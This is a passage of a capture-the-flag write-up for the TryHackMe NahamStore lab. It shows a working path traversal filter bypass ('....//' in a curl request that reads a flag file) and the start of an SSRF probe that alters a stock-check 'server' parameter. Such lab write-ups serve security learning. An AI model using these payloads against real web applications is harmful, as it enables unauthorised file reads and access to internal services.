 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a36.png)

**Looks like there is a filter blocking path traversal?**

We might able to bypass it via **URL encoding:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a37.png)

Nope. How about **double URL encoding**?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a38.png)

**Nope. Let's try `..//`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a39.png)

**It worked!! We can `curl` the flag:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl "http://nahamstore.thm/product/picture/?file=....//....//....//....//....//lfi/flag.txt"
{Redacted}
```

# Task 7 - SSRF

```
 The application has an SSRF vulnerability, see how you can exploit it to view an API that shouldn't be available.
```

1. Credit Card Number For Jimmy Jones

**In the `product` page, we can click the `Check Stock` button:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a40.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a41.png)

**Burp Suite:**
```
POST /stockcheck HTTP/1.1
[...]

product_id=1&server=stock.nahamstore.thm
```

We can see that it's sending a POST request to `/stockcheck`, and the `server` parameter looks interesting.

**What if we point it to another domain?**
```
product_id=1&server=nahamstore.thm
```

It outputs an error message for server invaild... So maybe we need to keep `stock.nahamstore.thm`.
